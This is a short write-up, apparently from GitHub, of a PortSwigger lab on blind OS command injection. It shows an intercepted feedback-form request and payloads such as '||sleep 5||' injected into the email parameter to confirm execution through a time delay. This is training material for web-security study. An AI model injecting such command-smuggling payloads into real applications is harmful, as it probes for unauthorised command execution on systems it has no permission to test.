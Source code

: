 ## Welcome, my friend. Today we will start the [2. OS Injection lab](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays) in ```portswigger```


# Let's play this lab:

![image](https://github.com/user-attachments/assets/0993dff9-176f-487f-abed-d74b9f1960a4)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/a1669cfe-d5cd-4c70-91ee-15b96ccae0f7)

### Well, we found ```submit feedback``` page , Start Burp suite and intercept the request:

![image](https://github.com/user-attachments/assets/0909605a-55a7-4c18-ab1f-c0280b754dac)

```
csrf=CxkTlU7I6elHRaaUvLLKFimvswZiwlDY&name=mohamed&email=mohamed%40gmail.com&subject=high&message=4
```
 <br>
 
### This ```email``` parameter is vulerable.

### inject os command inside this parameter:

### This is our payload for sleeping or ping 10 sec:

```
||sleep 5||
||ping -c 5 127.0.0.1|||
```

### inject email field:

```
email=mohamed%40gmail.com||sleep 5||
```

https://github.com/user-attachments/assets/d767e94a-711e-4362-8c18-d387b459c165


![image](https://github.com/user-attachments/assets/a9718e58-6e9e-4b41-9a85-6bf497a1f9d3)


Well, We Congratulations, the lab has been solved successfully.




<p align="center">
<img src="https://github.com/user-attachments/assets/853f5e50-d1fd-4465-9c5a-a3f27700e936" >
</p>

